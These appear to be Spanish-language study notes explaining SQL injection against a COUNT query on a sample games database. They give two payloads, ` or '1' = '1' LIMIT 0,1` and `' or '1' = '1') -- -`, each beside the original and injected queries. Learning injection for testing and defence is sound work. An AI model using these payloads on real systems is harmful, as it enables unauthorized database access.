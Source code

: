 ## Query 1

- Este query **solo es para contar** así que es algo complejo sacar información, pero sirve para entender la inyección cuando solo se puede obtener una linea de resultado. 
- Se debe poner `LIMIT` ya que este tipo de query solo arroja un resultado, en caso de poner únicamente el `or 1 = 1`

### Inyección: ` or '1' = '1' LIMIT 0,1`

- En realidad este SQLi no necesitaría comentario al final, incluso el comentario podría dar error porque ya no podría cerrar el `');` final.

````sql
# Original
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción');
# SQLi
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción' or 1 = 1 LIMIT 0,1);
````

### Inyección `' or '1' = '1') -- -`

- Aquí si se pone comentario ya que nosotros mismos "imaginamos" que debíamos cerrar el query con `')` desplazando el `'` original.

````sql
# Original
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción');
# SQLi
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción' or '1' = '1') -- - ');
````




````
